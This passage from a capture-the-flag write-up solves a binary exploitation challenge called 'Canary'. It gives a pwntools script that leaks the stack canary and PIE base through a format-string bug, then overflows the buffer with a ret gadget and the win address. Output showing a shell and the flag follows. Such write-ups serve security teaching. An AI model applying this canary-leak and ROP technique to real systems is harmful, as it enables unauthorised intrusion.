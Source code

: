      Containing ELF sections:
                   .text 0x555555555100 = 0x555555555100 + 0x0

So we will subtract 0x1100 to get base address of our binary.

We can start writing our exploit that leaks the canary and the base address:

    from pwn import *
    #context.log_level = 'debug'
    elf = context.binary = ELF("./s")
    ip, port = "litctf.org", 31791
    io = elf.process()
    #io = remote(ip,port)
    #Leak Canary
    p1 = "%33$p||%41$p"
    io.sendline(p1)
    data = io.recv(1024, timeout=2).split(b"||")
    canary = int(data[0],16)
    text = int(data[1], 16)
    log.info(f"Canary : {hex(canary)}")
    #Shell?
    sub = 0x1100
    base = text - sub
    log.info(f"Base Address: {hex(base)}")

Now we also have the address of win function

    win = p64(base + elf.sym['win'])

The only thing we need now is rop gadget for 'ret' instruction (bc stack alignment)

    $ ROPgadget --binary=s|grep ": ret"
    0x000000000000101a : ret

We can update our script 

    ret = p64(base + 0x000000000000101a)

Final payload will be like
Offset + Canary + 8 bytes of junk + ret address + win address

Offset is 40 (tip run it on gdb create a cyclic of 100 and break at vuln, send this payload on second gets and then set rip at leave instruction, this will bypass the canary check...)

Running the exploit

    $ python3 xpl.py 
    [*] '/home/ctf/lit ctf/Canary/s'
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    [+] Starting local process '/home/ctf/lit ctf/Canary/s': pid 1318968
    /home/ctf/lit ctf/Canary/xpl.py:9: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
      io.sendline(p1)
    [*] Canary : 0x2e3e27eaf0759600
    [*] Base Address: 0x55c828f48000
    [*] Win @ 0x55c828f491e9
    [*] Switching to interactive mode
    $ cat flag.txt
    LITCTF{rule_1_of_pwn:_use_checksec_I_think_06d2ee2b}
    $
